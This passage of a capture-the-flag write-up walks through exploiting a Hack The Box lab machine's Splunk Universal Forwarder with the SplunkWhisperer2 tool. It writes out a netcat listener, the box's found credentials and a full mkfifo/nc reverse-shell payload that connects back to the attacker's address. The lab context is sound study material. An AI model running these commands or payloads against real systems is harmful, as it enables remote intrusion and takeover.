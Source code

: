 Yup, it’s running. Time to do some **research** and see if there’s a way to exploit it. A quick Google search led me to this page:

[SplunkWhisperer2 - Splunk Universal Forwarder Hijacking](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

And the GitHub repo for the tool:

[SplunkWhisperer2 GitHub](https://github.com/cnotin/SplunkWhisperer2)

If you’ve never done a box like this before, don’t be surprised if you need to download extra tools that weren’t in your original game plan. That’s normal in both CTFs and real-world pentesting. The more tools you get comfortable with, the better.

One issue I ran into—HTB’s VPN connection was **blocking** my download from GitHub. If you have the same problem, just **disconnect from the VPN, download the tool, and reconnect**.

### **🚀 Exploiting Splunk Universal Forwarder**

Let’s see if we can execute commands using this tool. First, we’ll start with a simple `id` command to test if we have remote code execution (RCE):

```bash
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.38 --payload id
```

That didn’t work—we got an **authentication failure**.

![[pySplunkError.png]]

No big deal. We already found Shaun’s credentials earlier, so let’s **try logging in with those** and see if we can get a full shell instead of just running one command.

First, open up a listener on your machine:

```bash
nc -lvp 1994
```

Now, run the exploit with the **correct credentials** and a **reverse shell payload**:

```bash
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --username shaun --password Guitar123 --lhost 10.10.14.38 --payload 'rm /tmp/0xjcbk_pipe;mkfifo /tmp/0xjcbk_pipe;cat /tmp/0xjcbk_pipe|/bin/sh -i 2>&1|nc 10.10.14.38 1994 >/tmp/0xjcbk_pipe'
```

Here’s what’s happening:

- `--host 10.10.10.209` → Target machine
- `--username shaun` → Using Shaun’s creds
- `--password Guitar123` → The password we found in the logs
- `--lhost 10.10.14.38` → Our attacking machine
- `--payload` → Reverse shell that connects back to us

We run the command, and boom—**RCE success**.

![[pysplunkRCE.png]]
